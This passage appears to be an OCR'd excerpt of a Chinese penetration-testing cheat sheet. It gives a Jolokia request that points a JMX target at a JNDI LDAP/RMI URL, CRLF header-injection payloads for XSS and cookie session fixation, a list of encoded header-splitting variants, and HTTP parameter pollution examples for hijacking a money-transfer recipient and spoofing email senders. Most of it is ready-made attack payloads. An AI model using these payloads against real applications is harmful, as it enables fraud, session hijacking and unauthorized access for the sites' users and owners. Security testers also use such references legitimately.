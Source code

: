 ```
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
         "url" : "service:jmx:rmi:///jndi/ldap://localhost:9092/jmxrmi"
    } 
}
或
POST /jolokia/ HTTP/1.1
Host: localhost:10007
Content-Type: application/json
Content-Length: 206

{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
         "url" : "service:jmx:rmi:///jndi/rmi://localhost:9092/jmxrmi"
    } 
}
参考：https://xz.aliyun.com/t/2294
```
### CRLF_HTTP头注人
> **多出现于302跳转类型,观察url或参数是否存在于返回包中**
```
1、如访问/test.php?www.xxx.com，，如果存在可如下xss payload测试：
/test.php?www.xxx.com%%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<html><script>alert(/crlf/)</script></html>

2、Cookie会话固定：
%0a%0d%0a%0dSet-cookie:JSPSESSID%3Dxxx
%0d%0a%09Set-cookie:%20xxx

3、测试payload
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28crlf%28%29%E5%98%BE
%2f%2e%2e%0d%0aheader:header
%23%0dheader:header
%3f%0dheader:header
/%250aheader:header
/%%0a0aheader:header
/%3f%0dheader:header
/%23%0dheader:header
/%25%30aheader:header
/%25%30%61header:header
/%u000aheader:header
```
### HPP_参数污染漏洞
```
重复提交参数产生奇效

1、敏感操作
https://www.example.com/transferMoney.php?amount=1000&fromAccount=12345
进行转账操作，原本链接中是没有toAccount参数的，这个参数是后端固定的，但如果我们重复提交这个参数：
https://www.example.com/transferMoney.php?amount=1000&fromAccount=12345&toAccount=99999
会覆盖后端请求，从而服务器取到的是toAccount=99999这个值。

2、IDOR（不安全的对象引用）
发邮件功能，我8888用户发邮件给对方12345用户
https://www.example.com/transferMail.php?myId=8888&targetId=12345
当不适应HPP时仅仅修改如下，即想让对方12345发邮件给我8888，进行鉴权显然会请求错误
https://www.example.com/transferMail.php?myId=12345&targetId=8888
使用HPP时，如下添加了两个myId参数，鉴权取到了myId=8888 通过，发邮件时取到了myId=12345这个值，从而让对方12345用户发邮件给了我8888用户
```